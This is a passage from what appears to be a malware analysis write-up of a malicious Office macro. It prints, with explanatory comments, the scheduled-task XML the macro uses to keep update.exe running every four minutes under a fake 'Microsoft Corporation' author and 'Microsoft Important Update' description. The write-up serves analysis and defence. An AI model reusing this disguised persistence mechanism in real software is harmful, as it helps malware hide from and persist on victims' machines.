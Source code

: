 5. The macro creates a persistence method for update.exe file. This is done by setting a scheduled task under the name of the MicrosoftUpdate .


## Scheduled Task
I commented the xml to be easliy undertsandable.
```xml
<?xml version=""1.0"" encoding=""UTF-16""?>
<Task version=""1.2"" xmlns=""http://schemas.microsoft.com/windows/2004/02/mit/task"">
    <RegistrationInfo>
        <Author>Microsoft Corporation</Author>
        <Description>Microsoft Important Update</Description>
    </RegistrationInfo>
    <Triggers>
        <TimeTrigger>
            <Repetition>
                <Interval>PT4M</Interval>  <!-- Restart task every 4 Minutes -->
            </Repetition>
            <StartBoundary>" & Format(DateAdd("n", 1, Now()), "yyyy-mm-ddThh:nn:ss") & "</StartBoundary> 
            <!--  Specifies the date and time when the trigger is activated. -->
            <Enabled>true</Enabled> <!--Specifies that the trigger is enabled.-->
        </TimeTrigger>
    </Triggers>
    <Principals> <!--Specifies the security contexts that can be used to run the task.-->
        <Principal id=""Author"">
<!-- Specifies the security credentials for a principal. These credentials define the security context that a task runs under.-->
            <LogonType>InteractiveToken</LogonType>
            <!-- User must already be logged on. The task will be run only in an existing interactive session.-->
            <RunLevel>LeastPrivilege</RunLevel>
        </Principal>
    </Principals>
    <Settings>
        <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy> 
        <!-- Starts a new instance while an existing instance is running. -->
        <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries> 
        <!--Specifies that the task will not be started if the computer is running on battery power.-->
        <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries> 
        <!--Specifies that the task will be stopped if the computer switches to battery power.-->
        <AllowHardTerminate>true</AllowHardTerminate> 
        <!--Specifies if the Task Scheduler service allows hard termination of the task.-->
        <StartWhenAvailable>true</StartWhenAvailable> 
        <!--Specifies that the Task Scheduler can start the task at any time after its scheduled time has passed.-->
        <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable> 
        <!--Specifies that the Task Scheduler will run the task only when a network is available.-->
        <IdleSettings>
         <!--Specifies how the Task Scheduler performs tasks when the computer is in an idle state.-->
            <Duration>PT10M</Duration>
            <!-- 10 Minute --> <!--Specifies how long the computer must be in an idle state before the task is run.-->
            <WaitTimeout>PT1H</WaitTimeout>
        <!-- 1 Hour --> <!--Specifies the amount of time that the Task Scheduler will wait for an idle condition to 
        occur. -->
        </IdleSettings>
        <AllowStartOnDemand>true</AllowStartOnDemand> 
        <!--Specifies that the task can be started by using either the Run command or the Context menu.-->
```